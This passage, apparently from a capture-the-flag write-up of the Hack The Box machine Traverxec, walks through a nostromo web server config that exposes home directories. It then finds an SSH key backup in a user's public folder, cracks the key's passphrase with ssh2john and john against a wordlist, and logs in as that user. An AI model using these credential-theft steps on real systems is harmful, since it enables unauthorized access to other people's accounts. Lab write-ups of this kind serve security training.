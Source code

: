 ```

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```
As we can see homedirs are allowed into the webserver, so probably this meas that www-data may have a chance to see content of user directories.  
we can navigate to:
```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```
The file ```backup-ssh-identity-files.tgz``` defenetly looks juicy, so let's start looking into it.  
Inside the backup archive, we can see an id_rsa file. Obviously this file is encrypted, so let's use ssh2john and john to crack the file:  
```
[root@kali .ssh ]$ ssh2john id_rsa > id_rsa_david.hash             
[root@kali .ssh ]$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_david.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2022-03-28 16:05) 100.0g/s 14400p/s 14400c/s 14400C/s carolina..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now that we have a password for the key, we can use it to log in as david:  
```
[root@kali .ssh ]$ ssh -l david -i id_rsa $TARGET                  
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
```